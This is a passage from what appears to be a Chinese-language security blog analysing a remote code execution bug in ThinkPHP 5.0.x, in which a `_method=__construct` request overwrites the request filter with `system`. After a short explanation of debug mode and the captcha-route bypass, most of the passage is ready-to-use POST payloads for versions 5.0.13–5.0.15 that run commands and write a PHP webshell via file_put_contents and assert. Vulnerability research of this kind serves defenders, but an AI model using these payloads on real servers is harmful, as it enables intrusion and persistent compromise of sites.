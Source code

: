 接下来就是我们进入了路由`check`，从而覆盖`filter`的值为`system`
![image](https://y4er.com/img/uploads/20191127223884.jpg)

但是在5.0.13中，摘出来的`exec()`中的`module()`方法`thinkphp/library/think/App.php:544` 会重新执行一次`$request->filter($config['default_filter']);` 把我们覆盖好的`system`重新变为了空，导致失败。

**那为什么开了debug就可以rce？**
![image](https://y4er.com/img/uploads/20191127223239.jpg)
这里会先调用`$request->param()`，然后在执行`self::exec($dispatch, $config)`，造成rce。

**那有没有别的办法不开debug直接rce呢？**
和debug的原理一样，switch的时候进入module分支会被覆盖，那就进入到其他的分支。
![image](https://y4er.com/img/uploads/20191127221821.jpg)
在thinkphp5完整版中官网揉进去了一个验证码的路由，可以通过这个路由触发rce

这个是我在5.0.13下试出来的payload `"topthink/think-captcha": "^1.0"`
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
```

我们继续
### 5.0.13补充
补充
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
```
### 5.0.14
默认debug=false，需要开启debug
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
```
### 5.0.15
默认debug=false，需要开启debug
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
有captcha路由时无需debug=true